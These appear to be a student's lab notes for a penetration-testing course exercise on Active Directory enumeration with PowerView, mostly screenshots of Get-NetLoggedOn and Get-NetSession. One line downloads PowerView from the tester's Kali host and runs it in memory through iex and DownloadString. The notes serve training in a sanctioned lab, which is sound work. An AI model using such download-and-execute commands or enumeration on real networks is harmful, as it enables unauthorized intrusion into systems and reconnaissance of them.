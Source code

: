 ### 21.2.4.1 Exercises
#### 1. Download and use PowerView to perform the same enumeration against the student VM while in the context of the Offsec account.

- Get-NetLoggedOn
  ![image-20200727183316344](.21.2.4.1.assets/image-20200727183316344.png)
- Get-NetSession
  ![image-20200727183335984](.21.2.4.1.assets/image-20200727183335984.png)

#### 2. Log in to the student VM with the Jeff_Admin account and perform a remote desktop login to the domain controller using the Jeff_Admin account. Next, execute the Get-NetLoggedOn function on the student VM to discover logged-in users on the domain controller while in the context of the Jeff_Admin account.

![image-20200727183742368](.21.2.4.1.assets/image-20200727183742368.png)

#### 3. Repeat the enumeration by using the DownloadString method from the System.Net.WebClient class in order to download PowerView from your Kali system and execute it in memory without saving it to the hard disk.

```powershell
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.119.216/PowerView.ps1')
```

I started a new Powershell session to clear out the previous dot-sourcing.

![image-20200727220547950](.21.2.4.1.assets/image-20200727220547950.png)